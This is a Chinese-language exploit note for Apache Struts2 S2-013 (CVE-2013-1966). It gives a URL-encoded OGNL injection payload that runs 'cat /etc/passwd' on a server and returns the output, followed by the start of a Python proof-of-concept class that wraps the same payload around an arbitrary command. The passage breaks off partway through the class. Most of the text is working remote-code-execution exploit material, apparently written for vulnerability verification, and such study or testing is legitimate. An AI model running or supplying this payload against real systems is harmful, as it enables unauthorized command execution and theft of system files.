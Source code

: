 #### 读取文件

```java
?a=%24%7B%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27cat%20%2fetc%2fpasswd%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D
```

### POC

```python

#!/usr/bin/env python3

import urllib
import random
import string
import requests

class S2_013_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-013漏洞,又名CVE-2013-1966漏洞',
            'description': 'Struts2 S2-013漏洞可执行任意命令, 影响范围为: Struts 2.0.0 - Struts 2.3.14.1',
            'date': '2013-04-16',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        if '.action' not in self.url:
            self.url = self.url + '/link.action'
        self.capta = self.get_capta() 
        self.payload = '?a=%24%7B%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27{cmd}%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D'
                                         
    def filter(self, check_str):

        """
        过滤无用字符

        :param str check_str:待过滤的字符串

        :return str temp:过滤后的字符串
        """
        
        temp = ''
        for i in check_str:
            if i != '\n' and i != '\x00':
                temp = temp + i
        return temp                
    
    def get_capta(self):
        
        """
        获取一个随机字符串

        :param:

```